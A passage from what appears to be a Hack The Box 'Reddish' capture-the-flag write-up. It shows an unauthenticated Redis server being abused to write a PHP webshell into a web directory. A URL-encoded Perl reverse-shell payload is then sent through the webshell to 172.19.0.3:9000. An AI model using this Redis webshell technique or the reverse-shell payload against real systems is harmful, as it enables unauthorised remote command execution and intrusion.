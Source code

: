 Reference:

> [https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)

> [https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

> [https://stackoverflow.com/questions/34155977/redis-promoting-a-slave-to-master-manually](https://stackoverflow.com/questions/34155977/redis-promoting-a-slave-to-master-manually)

Now its time to get a shell, I created a webshell payload. By following HackTricks. So Where we upload it? We don't know the exact location? But if we recall, We already saw some web directory from the webpage's source code. So I tried with them.

```bash
root@kali:~/boxes/reddish# (echo -e "\n\n"; cat shell.php; echo -e "\n\n") > wolf.php
root@kali:~/boxes/reddish# cat wolf.php 

[?php system($_REQUEST['wolf']); ?](?php system($_REQUEST['wolf']); ?)

root@kali:~/boxes/reddish# redis-cli -h 127.0.0.1 flushall
OK
root@kali:~/boxes/reddish# cat wolf.php | redis-cli -h 127.0.0.1 -x set crackit
OK
root@kali:~/boxes/reddish# redis-cli -h 127.0.0.1
127.0.0.1:6379> config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
OK
(0.56s)
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/www/html/8924d0549008565c554f8128cd11fda4"
(0.55s)
127.0.0.1:6379> config set dbfilename "wolf.php"
OK
(0.56s)
127.0.0.1:6379> save
OK
(0.55s)
127.0.0.1:6379>
```

And Yes it worked.

![Untitled](/img/htb-reddish/Untitled%2012.png)

I used various payload and only perl payload works again.

```bash
http://127.0.0.1/8924d0549008565c554f8128cd11fda4/wolf.php?wolf=perl%20-e%20%27use%20Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d9000%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22)%3bopen(STDOUT,%22%3E%26S%22)%3bopen(STDERR,%22%3E%26S%22)%3bexec(%22/bin/sh+-i%22)%3b}%3b%27
```

I got a shell in the new Container.
